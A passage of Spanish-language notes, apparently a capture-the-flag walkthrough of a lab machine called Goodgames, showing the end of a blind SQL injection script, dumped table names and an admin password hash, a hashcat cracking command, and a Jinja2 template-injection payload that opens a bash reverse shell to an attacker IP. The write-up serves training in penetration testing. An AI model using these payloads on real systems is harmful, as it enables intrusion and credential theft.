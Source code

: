 ```python

            if "Login Success" in r.text:
                data += character
                p2.status(data)
                break


if __name__ == '__main__':
    sqli()
```

Resultados: 
![[Goodgames8.png]]
La base de datos se llama main
![[Goodgames9.png]]
Las tablas se llaman, blog, blog_comments,user
![[Goodgames10.png]]
Las columnas son, email, id, name, password
	Nosotros vamos a dumpear name y password

![[Goodgames11.png]]
Usuario: admin
Contraseña: 2b22337f218b2d82dfc3b6f77e7cb8ec


# Hashcat para cracker la contraseña 
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt 

Resultado: superadministrator
![[Goodgames12.png]]

---

# [[Apuntes Directo/3)Intrusion a maquinas/Server-Side Template Injection (SSTI)|Server-Side Template Injection (SSTI)]]
![[Goodgames19.png]]
Como funciono el {{7*\7}}  y nos dio 49, pensamos que es un SSTI      | esta capado con \ 

![[Goodgames13.png]]
	Probamos este payload, por que como en wapallyzer vemos que esta corriendo python3, asumimos que se esta puyede estar usando jinja2
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"').read() }}
```
